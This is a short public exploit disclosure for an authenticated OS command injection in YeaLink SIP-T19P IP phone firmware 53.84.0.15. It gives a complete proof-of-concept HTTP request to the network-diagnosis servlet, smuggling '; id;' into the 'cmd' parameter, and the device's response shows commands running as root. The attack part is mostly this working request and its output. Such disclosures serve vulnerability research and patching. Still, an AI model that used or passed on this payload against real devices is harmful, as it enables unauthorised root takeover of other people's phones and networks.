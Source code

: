# Exploit Title: YeaLink SIP-TXXXP 53.84.0.15 - 'cmd' Command Injection (Authenticated)
#### Date: 11-10-2021
#### Exploit Author: tahaafarooq
#### Vendor Homepage: https://www.yealink.com/
#### Version: 53.84.0.15
#### Tested on: YeaLink IP Phone SIP-T19P (Hadrware VOIP Phone)

Description: 

Using Diagnostic tool from the Networking Tab to perform a Ping or Traceroute , to perform OS command injection

POC:
```http request
POST /servlet?m=mod_data&p=network-diagnosis&q=docmd&Rajax=0.890925468511929 HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 49
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://xxx.xxx.xxx.xxx
Referer: http://xxx.xxx.xxx.xxx/servlet?m=mod_data&p=network-diagnosis&q=load
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=9a83d24461329a130
Connection: close

cmd=; id;&token=1714636915c6acea98

-------------------------------------------------

HTTP/1.1 200 OK
Content-Type: text/html
Connection: close
Date: Wed, 10 Nov 2021 14:20:23 GMT
Server: embed httpd
Content-Length: 82

<html>
<body>
	<div id="_RES_INFO_">
            uid=0(root) gid=0(root)
        </div>
</body>
</html>
```

#### Writeup
[WRITEUP YEALINK POC](https://hackmd.io/@tahaafarooq/auth_rce_voip)